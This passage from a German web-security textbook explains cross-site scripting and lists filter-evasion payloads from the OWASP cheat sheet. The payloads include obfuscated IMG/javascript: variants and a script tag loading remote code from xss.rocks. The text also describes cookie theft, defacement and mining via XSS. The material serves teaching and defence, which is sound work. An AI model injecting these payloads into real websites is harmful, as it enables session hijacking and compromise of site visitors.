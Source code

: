 Ein Problem an XSS-Angriffsmustern ist, dass diese sehr stark variieren können und daher schwer zu filtern sind; anbei mehrere XSS-Muster:

\begin{verbatim}
<script>alert(1);</script>
<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>

<IMG SRC=JaVaScRiPt:alert('XSS')>
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>

<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

<IMG SRC= onmouseover="alert('xxs')">
<IMG SRC="jav    ascript:alert('XSS');">
<BGSOUND SRC="javascript:alert('XSS');">
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
\end{verbatim}

Eine gute Quelle für weitere XSS-Beispiele ist das OWASP XSS Filter Evasion Cheat Sheet\footnote{\url{https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet}}.

Mittels des eingeschleusten JavaScript-Code versucht der Angreifer nun, negativen Einfluss auf einen Benutzer zu nehmen. Ein gutes Beispiel wäre der Versuch, das Session-Cookie des aktuellen Benutzers (des Opfers) auszulesen und an einen externen Server zu übermitteln. Auf diese Weise würde ein Identitätsdiebstal durchgeführt werden. Ein weiteres Beispiel wäre \textit{Virtual Defacement}: bei diesem wird mittels JavaScript die dargestellt Webseite verändert und dadurch ein Defacement durchgeführt. Bösartig an diesem ist, dass die direkten Inhalte (Webseiten im Filesystem des Webservers) korrekt aussehen. In den letzten Jahren wurden XSS-Injections auch für Bitcoin/Crypto-Mining missbraucht. In diesem Fall wird jedes Opfer welches eine Webseite besucht kurzfristig Teil des Mining-Kollektivs. Last but not least kann XSS verwendet werden, um den Browser des Opfers Teil eines DDoS-Botnets zu machen. Ein berühmtes Beispiel hierfür ist die Low-Orbit Ion Canon die z. B. auch gerne von Anonymous verwendet wurde.

\subsubsection{Stehlen von Daten aus einem Passwortmanager}

Die meisten modernen Webbrowser bieten eine Form eines Passwortmanagers an. Nach einem durchgeführtem Login werden bei einem erneuten Besuch der Seite die Login-Credentials automatisch vom Webbrowser in das Formular eingetragen.

